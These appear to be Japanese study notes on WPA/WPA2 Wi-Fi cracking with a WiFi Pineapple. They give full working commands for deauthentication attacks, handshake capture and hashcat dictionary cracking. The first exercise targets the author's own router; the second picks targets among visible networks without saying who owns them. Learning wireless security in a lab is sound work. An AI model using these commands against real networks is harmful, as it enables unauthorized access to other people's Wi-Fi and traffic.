# Make Most of WiFi Pineapple

- ツールを活用しながら学んでいく。

## 準備

- ポケットWiFi(中古)を工場出荷時に戻す
  - 
- SSID / PWを再設定

## 機器

- ターゲット: PoketWiFi(SSID:1337_WiFI)
- ターゲットに接続しているデバイス: Android スマホ
- Laptop: WifiPineappleとの接続とWebUI操作
- WifiPineapple

## WPA/WPA2 Crack

### ステップ
1. Recon（ネットワークスキャン） → WiFiの情報収集
2. Deauthentication Attack（Deauth攻撃） → クライアントを強制切断してハンドシェイクを取得
3. Handshake Capture（ハンドシェイクキャプチャ） → WPA/WPA2の認証データを取得
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析

### 実践_01

1. **Recon: ターゲット確認**  
   

2. **Deauth: クライアントの強制切断を確認**  
     
   - クライアント（このWiFiに接続しているAndroidスマホ）の情報は見えない  

3. **Handshake Capture（ハンドシェイクキャプチャ）: tcpdumpモジュールを使用**  
   
   #### 3.1 インターフェースをモニターモードに変更  
   - WiFi PineappleにSSHで接続:  
     ```sh
     ssh root@172.16.42.1
     ```
   - モニターモード（Monitor Mode）を有効化:  
     ```sh
     airmon-ng start wlan1
     ```
       
     - `wlan1` に対してモニターモードの仮想インターフェース `wlan1mon` が作成されていることが分かる。
   - MMとして利用できるインターフェースを特定:  
     ```sh
     iwconfig
     ```
       
     - `wlan2` はクライアントモード（Managed Mode）で利用中：WiFi Pineappleが「WiFiルーターに接続する側」として動作する  
     - `wlan0-1` はアクセスポイントモード（AP Mode / Master Mode）で利用中：他のデバイスを接続させるための偽WiFi（Evil Twin Attack など）を作るときに使う  

   #### 3.2 tcpdumpモジュールをインストール  
   - `Modules` >> `install`
   - `Modules` >> `tcpdump` >> `install dependencies`

   #### 3.3 実際にキャプチャ  
   - Recon: ターゲットの情報を取得
     
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`
   - 

### 実践_02
※ wlan2が認識されないバグがあるため、アダプターを何度か抜いたりして認識させる: `iwconfig`

1. **Recon on WiFi Pineapple**  
   

2. **ターゲットの選定:**  
   - WPA2 PSK (CCMP) や WPA Mixed PSK (CCMP) を利用している。
   - 電波強度が -60dBm 前後のものを選択。
   - クライアント（接続デバイス）がいることを確認。

3. **モニターモード有効化とネットワーク監視:**  
   ```sh
   airmon-ng start wlan1
   airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 7 -w /sd/handshake wlan1mon
   ```
   

4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```
   

